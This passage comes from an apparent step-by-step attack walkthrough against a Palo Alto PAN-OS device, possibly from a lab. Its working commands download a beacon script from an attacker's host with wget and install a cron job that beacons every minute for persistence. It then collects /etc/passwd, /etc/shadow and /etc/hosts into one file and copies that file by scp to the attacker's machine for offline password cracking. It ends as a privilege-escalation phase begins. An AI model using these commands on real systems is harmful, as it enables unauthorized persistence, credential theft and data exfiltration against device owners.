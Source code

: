 2. Next, import the `pan_os_comm.py` script from your attack machine, where it is being hosted via the web server.
   `wget -O /usr/local/bin/pan_os_comm.py http://<IP_of_your_attack_box>:<port>/pan_os_comm.py`

3. To ensure that the file has been successfully downloaded and is executable, run:
   `ls -l /usr/local/bin | grep pan_os`

4. Once you’ve confirmed the script is there, it’s time to set up the cron job to maintain persistence. To add the cron job, execute the following command:
   `(crontab -l 2>/dev/null; echo "* * * * * /usr/bin/python3 /usr/local/bin/pan_os_comm.py >/dev/null 2>&1") | crontab -`
NOTE- This will add a cron job that runs every minute, calling your pan_os_comm.py script and sending a beacon to your second listener.

5. To check that your cron job has been successfully added, run the following:
   `crontab -l`
NOTE- This should display the current cron jobs, confirming that the job was added. The cron job will send a beacon to your listener every minute, ensuring that even if you lose access, you can reopen the listener using the same port, and it will catch the beacon again.

## Phase 3: Enumeration and Exfil

Now that we have a way to return to the system, let’s gather critical files containing sensitive data, which can be exfiltrated and reviewed offline for password cracking.

1. We’ll start by viewing some important files and saving them to a new document for exfiltration:

```bash
cat /etc/passwd > users.txt
cat /etc/shadow >> users.txt  # Notice the '>>', it appends the content of /etc/shadow
cat /etc/hosts >> users.txt   # Append /etc/hosts to the same file
```

NOTE: The `>>` operator ensures that the contents of `/etc/shadow` and `/etc/hosts` are appended to `users.txt`. **If you use** `>`, **the file will be overwritten.**

2. Next, use `SCP` to securely copy the `users.txt` file to your attack machine:
   `scp users.txt kali@<your_ip_address>:.`
NOTE: Make sure to replace <your_ip_address> with the actual IP address of your attack machine, and specify the path where you want the file to be saved.

3. On your attack machine, open a new terminal, navigate to your home folder, and check if the file has been transferred successfully:

```bash
cd ~
ls | grep users.txt
```

4. Once you’ve confirmed that the file has been successfully transferred, you can exit the compromised machine. Your beacon terminal should still be active, allowing you to regain access at any time.
   `exit`

## Phase 4: Privilege Escalation

In this section, we will leverage the exfiltrated users.txt file that was pulled from the Palo Alto system. We will perform offline password cracking to gain legitimate credentials for the device.
